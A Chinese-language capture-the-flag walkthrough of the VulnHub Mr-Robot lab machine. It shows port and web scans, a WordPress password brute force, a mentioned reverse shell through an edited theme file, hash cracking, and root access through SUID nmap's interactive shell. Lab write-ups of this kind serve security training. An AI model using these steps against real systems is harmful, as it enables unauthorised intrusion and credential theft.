










# Mr-Robot：1

下载地址

```
https://download.vulnhub.com/mrrobot/mrRobot.ova
```

## 实战操作

靶机扫描地址：`192.168.32.169`。



对靶机进行端口扫描

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.169                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 21:55 EDT
Nmap scan report for 192.168.32.169
Host is up (0.00030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 00:0C:29:DC:72:F4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 106.71 seconds

```

访问80端口网站是动画。



扫描80端口

```
┌──(root💀kali)-[~/Desktop]
└─# nikto -h http://192.168.32.169
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.32.169
+ Target Hostname:    192.168.32.169
+ Target Port:        80
+ Start Time:         2022-07-14 21:58:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in 
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See htt
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.32.169/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-07-14 22:01:02 (GMT-4) (150 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

目录爆破



发现文件：`robots.txt`。



下载这两个文件，其中`key-1-of-3.txt`是一个加密字符串，`fsocity.dic`是一个字典，我猜这是我们以后必须使用的东西。

```
073403c8a58a1f80d943455fb30724b9
```

有许多不同的工具能够暴力破解 Web 应用程序，而 Burp Suite 对于这项任务可能有点矫枉过正。但是，我知道如何使用 Burp 并且发现它非常直观，所以我将坚持我所知道的。开启代理后，我将捕获登录请求并将其发送给入侵者。在那里，我将清除现有位置并将我自己的位置添加到日志参数中。

然后，我将 fsociety.dic 文件加载到有效负载中并开始攻击 很快我们就可以看到用户 Elliot 的响应长度与其余响应的长度不同。这表明被发回的错误消息与其他用户的错误消息不同。



爆破wordpress登录密码

```
[!] Valid Combinations Found:                                                                                        
 | Username: Elliot, Password: ER28-0652                                                                             
                                                                                                                     
[!] No WPScan API Token given, as a result vulnerability data has not been output.                                   
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register                
                                                                                                                     
[+] Finished: Thu Jul 14 22:58:31 2022                                                                               
[+] Requests Done: 1889                                                                                              
[+] Cached Requests: 6                                                                                               
[+] Data Sent: 634.845 KB                                                                                            
[+] Data Received: 176.135 MB                                                                                        
[+] Memory used: 376.395 MB                                                                                          
[+] Elapsed time: 00:37:43      
```

登录wordpress



修改404.php

> https://192.168.32.169/wp-admin/theme-editor.php



nc反弹成功，找到一个hash

```
$ cat pass*
robot:c3fcd3d76192e4007dfb496cca67e13b
```



去网上查找hash的值密码，`abcdefghijklmnopqrstuvwxyz`



```
$ python -c 'import pty; pty.spawn("/bin/bash")'        
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

查看key.txt

```
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat ke*  
cat ke*
822c73956184f694993bede3eb39f959
```

但是无法破解



查看SUID的程序

```
robot@linux:~$ find / -u=s --perm 2>/dev/null
find / -u=s --perm 2>/dev/null
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

使用nmap进行提权

```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root      
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4
# cat fi*
cat fi*
# cat firstboot_done
cat firstboot_done
# 
```

